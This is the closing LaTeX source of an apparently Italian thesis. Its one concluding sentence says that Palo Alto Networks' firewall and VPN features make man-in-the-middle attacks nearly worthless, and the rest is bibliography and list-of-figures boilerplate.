In conclusion Palo Alto Networks provides a \glsxtrshort{ngfw} solution that is very extensible and either through an integrated \glsxtrshort{vpn} solution, or through its Zone Protection features installed alongside a \glsxtrshort{vpn} Server, it's able to render \glsxtrshort{mitm} attacks almost worthless.

\newpage
\cleardoublepage

\addcontentsline{toc}{chapter}{Bibliography}
\bibliography{bib/bib-latex}
\bibliographystyle{ieeetr} % acm siam abbrv plain, alpha, abbrv, ieeetr

\newpage
\cleardoublepage
% --- list of tables and figures (indice delle tabelle, figure) ------------
\addcontentsline{toc}{chapter}{\listfigurename}
\listoffigures% genera elenco e aggiunge voce all'indice(nella lingua corretta)


%\PrintIndex % genera indice analitico, aggiunge voce all'indice (nella lingua corretta)
%\clearpage \addcontentsline{toc}{chapter}{Indice analitico} \printindex


\end{document}
